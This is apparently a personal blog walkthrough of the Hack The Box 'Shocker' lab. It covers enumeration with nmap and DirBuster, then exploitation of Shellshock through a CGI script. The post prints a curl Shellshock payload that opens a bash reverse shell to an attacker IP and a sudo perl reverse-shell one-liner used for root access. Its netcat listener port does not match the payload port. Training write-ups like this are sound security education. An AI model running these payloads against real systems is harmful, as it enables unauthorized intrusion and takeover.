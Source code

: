 ```yaml
---
title: Shocker
date: 2020-05-17 16:19
description: HTB Walkthrough without Metasploit
featured_image: '/images/blog/shocker/shocker.png'
tags: ['Hack The Box']
---
```


In this Hack The Box, we’ll be using DirBuster to look for hidden directories, and we’ll get to use the shellscript exploit to gain access to the box–all without using Metasploit, so let’s begin!

## Hack The Box

* Operating System: Linux 
* Difficulty: Easy

## Enumeration

Let's start with the good ol' nmap scan. 

<img src="/images/blog/shocker/nmapscan.jpg" alt="nmap scan">

	PORT     STATE SERVICE VERSION
	80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	|_http-title: Site doesn't have a title (text/html).
	2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 
	                       (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
	|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
	|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)

From the results, we can see that port 80 is open, so let’s see what we can find.

### Website Information 

In the web browser, I went to `10.10.10.56`. Hah, look what's on the front page. 

<img src="/images/blog/shocker/website.jpg" alt="front page of website">

Next, I checked the source code and the HTTP headers using Burp Suite--nothing.

I decided to use DirBuster since I wasn't having any luck. 

### DirBuster

To access DirBuster, in terminal type in `dirbuster`, and it should open the program. I used the medium wordlist file located in: 

<strong>/usr/shared/wordlists/dirbuster/directory-list-2.3-medium.txt</strong>

Here are the results:

<img src="/images/blog/shocker/dirbuster.jpg" alt="dirbuster results">

I tried to access /icons, no luck. That said, what's interesting is the cgi-bin directory that DirBuster has found. Since cgi-bin is a folder that can be used to house scripts.. I wonder if there's any scripts in that folder.

I reran DirBuster, but this time added the file extensions: <strong>sh, pl, py, and rb</strong>. 

<img src="/images/blog/shocker/dirbustershell.jpg" alt="dirbuster results with shell script">

Here we go, it looks like we found a <strong>user.sh</strong> file, which confirms that the cgi-bin does allow for scripts to run. Meaning, we can try to send a shell script over to gain access to the machine.

### Using Nmap Scripts

Since we've confirmed that the cgi-bin directory can execute shell scripts, I did some investigating and found out about the shellshock vulnerability. Here's what I found:

*Shellshock could enable an attacker to cause Bash to execute arbitrary commands and gain unauthorized access to many Internet-facing services, such as web servers, that use Bash to process requests.*

You can learn more about it here: [Wikipedia - Shellshock (Software Bug)](https://en.wikipedia.org/wiki/Shellshock_(software_bug))

Before using it, I wanted to verify that this HTB is vulnerable to shellshock, so I used a nmap script. To find the script in Kali Linux use the `locate` command. Once found, you can use the `cp` command to copy it to your current directory. 

	root@kali:~# locate http-shellshock
	/usr/share/nmap/scripts/http-shellshock.nse
	root@kali:~# cp /usr/share/nmap/scripts/http-shellshock.nse /root/HTB/Shocker

Before using it, I edited the file by using the `gedit` command and removed the line: 

`options["header"][cmd] = cmd`

Then we can go ahead and run the script..

<img src="/images/blog/shocker/nmapscript.jpg" alt="nmap script results">

..Yes! Confirmed that this box might be vulnerable to shellshock, so let's use it. 

## Exploitation

Before moving forward with exploitation, let's recap what we know so far:

* In the nmap scan, we found out that port 80 is open. 
* In DirBuster we saw the cgi-bin directory that contained a user.sh file.
* The above tells us that the cgi-bin directory can store and execute shell scripts.
* Confirmed that port 80 is vulnerable to the shellscript exploit by running a nmap script.

Okay, now that we know the above. Let's start our exploit!

### Shellscript Exploit

To start with the shellscript exploit, we're going to do the following: 

Enter this command in one terminal window:

	curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.31/4444 0>&1" http://10.10.10.56:80/cgi-bin/user.sh

And then open a netcat listener in another terminal window, `nc -lnvp 4443`

<img src="/images/blog/shocker/shellscript.jpg" alt="shellscript exploit">

Would you look at that--it worked! It looks like we have access to Shelly's account. Let's see what type of privileges Shelly has by using the `sudo -l` command.

<img src="/images/blog/shocker/shelly.jpg" alt="shelly privileges">

It looks like Shelly can run a perl script, so we can see if we can get a reverse shell using perl.

### Privilege Escalation

I like to use Pentest Monkey's cheat sheet to find a reverse shell suing perl. The cheat sheet can be found here: [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

	sudo perl -e 'use Socket;$i="10.10.14.31";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

Before executing the command, we'll want to create a Netcat listener first in another terminal window by typing `nc -lnvp 4444` 

<img src="/images/blog/shocker/pescalation.jpg" alt="privilege escalation">

We did it! We can use the `whoami` command to verify root access, and we do. Congrats! We now have access to the Shocker HTB. From here, we can locate the root.txt and user.txt file to grab the flags. 

## Conclusion

Running DirBuster on web servers is extremely helpful because it'll find directories that you wouldn't normally see when you first go to a website. In this box, we were able to locate the cgi-bin directory which housed scripts. Once we found that out, we were able to upload and execute our own scripts to gain root access. 
